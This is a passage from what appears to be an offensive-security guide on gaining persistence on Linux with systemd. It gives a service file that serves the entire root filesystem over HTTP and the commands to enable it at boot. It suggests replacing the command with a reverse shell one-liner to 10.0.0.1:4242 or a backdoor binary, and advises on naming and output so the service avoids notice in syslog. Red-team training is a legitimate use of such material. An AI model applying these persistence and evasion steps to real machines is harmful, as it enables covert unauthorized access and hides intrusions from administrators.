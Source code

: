 ##### 5.2.2 Minimal service file


We want to create a service called `bad`. So we create a file named `/etc/systemd/system/bad.service`

```
[Unit]
Description=Example of bad service

[Service]
ExecStart=python3 -m http.server --directory /

[Install]
WantedBy=multi-user.target
```

Once this is created, we need to `enable` the service so that it will run when the machine boots. The standard way to do this is 

```
systemctl enable bad
```

If you named your service `netdns.service`, for example, then the you will run `systemctl enable netdns`. This command will look for a `bad.service` file in one of the unit paths, parse it and create a symlink for each target in the `WantedBy` setting. 

 Since `WantedBy=multi-user.target`, the target directory would be `/etc/systemd/system/multi-user.target.wants` and we can manually create the symlink  

```
ln -s /etc/systemd/system/bad.service /etc/systemd/system/multi-user.target.wants/bad.service
```

After the symlink is created, the OS will know to run `bad.service` when the machine boots up. To manually run the service, you can run  `systemctl start bad`. If you modify a unit file, you need to reload it using `systemctl daemon-reload`

In this example, `ExecStart` is a python3 but you can replace this with whatever command you want. It can be a reverse shell like `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1` from whatever cheatsheet [3] or you can point this to a bash script or executable like `/tmp/backdoor` or `/opt/backdoor`. 

##### 5.2.3 Staying covert

Be conscious about the unit name, description, and the output of your script/executable.

By default, the description of the service will appear in syslog, and along with the `stdout`/`stderr`. Let's say I have a python script that the service will run and it is trying to connect to a domain that we have failed to setup properly, then the service might right the following the `syslog`

```
Jan 30 07:35:56 test-auditd systemd[1]: Started Example of bad service.
Jan 30 07:36:27 test-auditd python3[957]: Traceback (most recent call last):
Jan 30 07:36:27 test-auditd python3[957]:   File "<string>", line 1, in <module>
Jan 30 07:36:27 test-auditd python3[957]: TimeoutError: [Errno 110] Connection timed out
Jan 30 07:36:27 test-auditd systemd[1]: bad.service: Main process exited, code=exited, status=1/FAILURE
Jan 30 07:36:27 test-auditd systemd[1]: bad.service: Failed with result 'exit-code'.
```
